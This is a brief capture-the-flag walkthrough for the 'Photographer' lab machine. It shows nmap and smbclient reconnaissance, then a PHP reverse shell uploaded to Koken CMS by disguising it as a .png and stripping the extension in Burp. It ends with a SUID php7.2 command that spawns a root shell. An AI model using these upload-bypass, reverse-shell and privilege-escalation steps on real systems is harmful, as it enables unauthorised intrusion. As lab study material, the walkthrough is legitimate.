









# Photographer
## Recon:
### Scanning
* *  *
Finding ip address of the machine

`nmap -sn -oA host-discovery 192.168.10.*` 

`nmap -T4 -O -A -sV -p- -sS -Pn -n -vvv -oA scan1 192.168.10.51`

`smbclient -L 192.168.10.51`

`smbclient \\\\192.168.10.51\\sambashare`
* * * 
### Enumeration

`http://192.168.10.51:8000/`

this webpage is built with *koken cms*

so we search exploit for it

 * *  *

### Gaining Access

`/usr/share/webshells/php/php-reverse-shell.php`

`reverse-shell-php.php` rename with `.png` extension and uploaded to `http://192.168.10.51:8000/admin`

then start the burp proxy interceptoor. then remove .png extension from ‘name’ and 'filename'

once you upload the file then you get the address of the uploaded file in the right section SITE > Link > `http://192.168.10.51:8000/content/php-reverse-shell-2/`

`python -c "import pty;pty.spawn('/bin/bash')"`

user flag is here..!!!

searching for SUID-GUID executables. 
here we get the *php*

we search **php7.2** on **GTFOBins**
`/usr/bin/php7.2 -r "pcntl_exec('/bin/bash', ['-p']);"`

here we get the root flag
